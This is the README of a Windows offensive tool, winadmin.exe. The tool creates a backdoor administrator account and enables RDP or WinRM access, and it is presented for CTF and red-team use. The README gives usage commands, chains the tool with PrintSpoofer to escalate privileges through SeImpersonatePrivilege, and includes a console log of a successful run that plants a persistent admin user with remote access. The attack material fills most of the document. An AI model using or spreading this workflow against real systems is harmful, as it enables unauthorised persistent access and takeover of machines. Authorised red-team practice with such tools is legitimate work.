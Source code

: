 # winadmin.exe

`winadmin.exe` is a tool designed for creating a backdoor user and enabling remote access for the user in CTFs (Capture The Flag) and Red Teaming engagements. It allows you to quickly add a new user to the administrators group and enable remote access protocols like RDP (Remote Desktop Protocol) and WinRM (Windows Remote Management) on Windows systems.

## Usage

```bash
.\winadmin.exe -u <username> -p <password> [-e {rdp|winrm}]
```
OR
```bash
.\PrintSpoofer.exe -i -c "C:\Windows\Temp\winadmin.exe -u <username> -p <password> [-e {rdp|winrm}]"
```

- `-u <username>`: Specify the username for the new user.
- `-p <password>`: Specify the password for the new user.
- `-e {rdp|winrm}`: Enable remote access (RDP or WinRM) for the new user. Use `rdp` for Remote Desktop Protocol access or `winrm` for Windows Remote Management access.

**Note:** The tool must be executed with administrator privileges.

## Examples

1. To add a new user to the administrators group:

```bash
.\winadmin.exe -u kryptohaker -p P@ssw0rd1
```

2. To add a new user to the administrators group and enable RDP access:

```bash
.\winadmin.exe -u kryptohaker -p P@ssw0rd1 -e rdp
```

3. To add a new user to the administrators group and enable WinRM access:

```bash
.\winadmin.exe -u kryptohaker -p P@ssw0rd1 -e winrm
```

## Scenario (I): PrintSpoofer

```
PS C:\Temp> .\winadmin.exe
.\winadmin.exe
Usage: C:\Temp\winadmin.exe -u <username> -p <password> [-e {rdp|winrm}]
  -u <username> : Specify the username for the new user.
  -p <password> : Specify the password for the new user.
  -e {rdp|winrm} : Enable remote access (RDP or WinRM) for the new user.
PS C:\Temp>
PS C:\Temp> .\PrintSpoofer.exe -i -c "C:\Temp\winadmin.exe -u kryptohaker -p P@ssw0rd1 -e rdp"        
.\PrintSpoofer.exe -i -c "C:\Temp\winadmin.exe -u kryptohaker -p P@ssw0rd1 -e rdp"                    
[+] Found privilege: SeImpersonatePrivilege                                                           
[+] Named pipe listening...                                                                           
[+] CreateProcessAsUser() OK                                                                          
The command completed successfully.                                                                   
                                                                                                      
The command completed successfully.                                                                   
                                                                                                      
The command completed successfully.                                                                   
                                                                                                      
The operation completed successfully.                                                                 
                                                                                                      
Updated 3 rule(s).                                                                                    
Ok.                                                                                                   
                                                                                                      
****************************************************                                                  
***** winadmin.exe - Backdoor User Creation Tool ******                                               
****************************************************                                                  
Author: Kryptohaker                                                                                   
URL: https://github.com/kryptohaker                                                                   
****************************************************                                                  
                                                                                                      
[+] kryptohaker user was successfully created.                                                        
[+] kryptohaker user was added to the local administrators' group.                                    
[+] RDP access was enabled for kryptohaker user.                                                      
PS C:\Temp> net user kryptohaker 

net user kryptohaker
User name                    kryptohaker
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            8/3/2023 1:18:40 AM
Password expires             9/14/2023 1:18:40 AM
Password changeable          8/4/2023 1:18:40 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships      *Administrators       *Remote Management Use
                             *Users
Global Group memberships     *None
The command completed successfully.
```

## Disclaimer

This tool is intended for educational and ethical purposes only. Misuse of this tool for any malicious or illegal activities is strictly prohibited. The author is not responsible for any damage or loss caused by the misuse of this tool.

## License

This project is licensed under the [MIT License](LICENSE).

